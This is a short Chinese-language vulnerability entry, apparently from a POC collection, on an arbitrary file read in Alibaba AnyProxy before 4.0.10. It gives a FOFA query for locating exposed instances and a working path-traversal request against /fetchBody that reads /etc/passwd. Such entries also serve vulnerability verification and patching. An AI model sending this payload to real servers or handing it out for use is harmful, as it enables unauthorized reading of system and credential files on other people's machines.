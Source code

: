 # Alibaba AnyProxy fetchBody 任意文件读取漏洞

## 漏洞描述

Alibaba AnyProxy 低版本存在任意文件读取，通过漏洞，攻击者可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>Alibaba AnyProxy < 4.0.10</a-checkbox></br>

## FOFA

<a-checkbox checked>"anyproxy"</a-checkbox></br>

## 漏洞复现

页面如下

![img](../../../.vuepress/public/img/image-20210718204835288.png)



验证POC为

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/image-20210718204843037.png)